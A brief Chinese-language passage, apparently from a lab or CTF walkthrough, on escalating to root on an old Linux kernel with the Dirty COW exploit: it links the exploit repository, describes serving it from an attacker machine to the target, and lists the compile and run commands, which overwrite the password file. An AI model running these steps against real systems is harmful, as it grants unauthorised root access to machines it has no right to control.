 ![img](assets/1685437774683-9fd58078-3202-4cb5-9997-ef09ae0920db-170339517269563.png)

2.*的版本，考虑用脏牛提取

https://github.com/FireFart/dirtycow

先下载到攻击机上

![img](assets/1685438800748-64868054-050d-4a5a-8284-2adc61d84c5e-170339517269665.png)

然后开启http服务

![img](assets/1685438849261-65bdb1e9-e1ff-4846-88e2-2d7db76767ad-170339517269667.png)

在靶机上下载脏牛并执行

![img](assets/1685439182379-0e7b5750-53f1-4dcb-aadd-47a8737b026f-170339517269669.png)

gcc -pthread dirty.c -o dirty -lcrypt

rm /tmp/passwd.bak	#先把passwd.bak移除

./dirty 12345
